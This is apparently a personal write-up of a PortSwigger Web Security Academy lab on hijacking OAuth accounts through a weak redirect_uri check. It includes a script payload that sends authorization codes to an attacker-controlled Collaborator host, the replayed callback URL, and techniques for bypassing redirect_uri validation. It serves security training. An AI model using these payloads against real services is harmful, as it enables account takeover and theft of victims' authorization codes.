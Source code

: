 ```yaml
---
layout: default
title: 4 - OAuth account hijacking via redirect_uri
---
```

**Authorization Code Grant Type** (response_type=code) :

```HTTP
GET /auth?client_id=q915ketoagt2nasucjbc7&redirect_uri=https://0a6200be04527b9f81c02a56008c00bc.web-security-academy.net/oauth-callback&response_type=code&scope=openid%20profile%20email HTTP/2
```

```html
<script>
document.location='https://oauth-0a9e00d304bba001811b1e81021400b7.oauth-server.net/auth?client_id=pujzm6j861iwqutbz7nrj&redirect_uri=https://zx08szy8tkdvaqlhl1o24stao1uwin8bx.oastify.com/oauth-callback&response_type=code&scope=openid%20profile%20email'
</script>
```

Luego accederíamos al callback real con el código que nos llega en el collaborator :

```
https://0a9f002b0421a04d81742009007e006d.web-security-academy.net/oauth-callback?code=fSRO55naPkbCcfCk0vXiGvegFS19e2CHPHZZh-qX_y9
```

[OAuth 2.0 authentication vulnerabilities | Web Security Academy](https://portswigger.net/web-security/oauth#leaking-authorization-codes-and-access-tokens)


- Some implementations allow for a range of subdirectories by checking only that the string starts with the correct sequence of characters i.e. an approved domain. You should try removing or adding arbitrary paths, query parameters, and fragments to see what you can change without triggering an error.
- If you can append extra values to the default `redirect_uri` parameter, you might be able to exploit discrepancies between the parsing of the URI by the different components of the OAuth service. For example, you can try techniques such as:
    
    `https://default-host.com &@foo.evil-user.net#@bar.evil-user.net/`
    
    If you're not familiar with these techniques, we recommend reading our content on how to [circumvent common SSRF defences](https://portswigger.net/web-security/ssrf#circumventing-common-ssrf-defenses) and [CORS](https://portswigger.net/web-security/cors#errors-parsing-origin-headers).
    
- You may occasionally come across server-side parameter pollution vulnerabilities. Just in case, you should try submitting duplicate `redirect_uri` parameters as follows:
    
    `https://oauth-authorization-server.com/?client_id=123&redirect_uri=client-app.com/callback&redirect_uri=evil-user.net`
- Some servers also give special treatment to `localhost` URIs as they're often used during development. In some cases, any redirect URI beginning with `localhost` may be accidentally permitted in the production environment. This could allow you to bypass the validation by registering a domain name such as `localhost.evil-user.net`.

